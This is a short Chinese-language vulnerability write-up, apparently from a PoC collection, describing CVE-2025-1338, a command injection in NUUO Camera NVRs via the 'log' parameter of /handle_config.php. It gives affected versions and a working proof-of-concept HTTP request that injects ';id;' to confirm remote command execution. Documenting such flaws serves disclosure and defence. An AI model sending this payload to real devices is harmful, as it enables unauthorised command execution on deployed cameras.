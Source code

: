 **漏洞介绍**



![图片](NUUO%20Camera%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-1338.assets/640.png)



NUUO摄像头‌是由**中国台湾省**NUUO公司生产的一款网络视频录像机（Network Video Recorder，简称NVR），广泛应用于零售、交通、教育、政府和银行等多个领域。

NUUO Camera 20250203及之前版本存在注入漏洞，该漏洞源于/handle_config.php的print_file函数中，参数log存在命令注入。



![Image](NUUO%20Camera%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-1338.assets/640-1744939822549-1.png)



**0x02影响版本**



Camera==20250203

![图片](NUUO%20Camera%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-1338.assets/640-1744939822549-2.png)

![Image](NUUO%20Camera%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-1338.assets/640-1744939822549-1.png)



**0x03漏洞复现**

1.访问漏洞环境

![图片](NUUO%20Camera%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-1338.assets/640-1744939822549-3.png)

2.对漏洞进行复现

 **POC** 

漏洞复现

```
GET /handle_config.php?log=;id; HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Cookie: PHPSESSID=6hjpl1c6pvu8i0uln8cr6niv77
Upgrade-Insecure-Requests: 127
```



   执行id命令，通过响应判断漏洞存在。



![图片](NUUO%20Camera%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9ECVE-2025-1338.assets/640-1744939822550-4.png)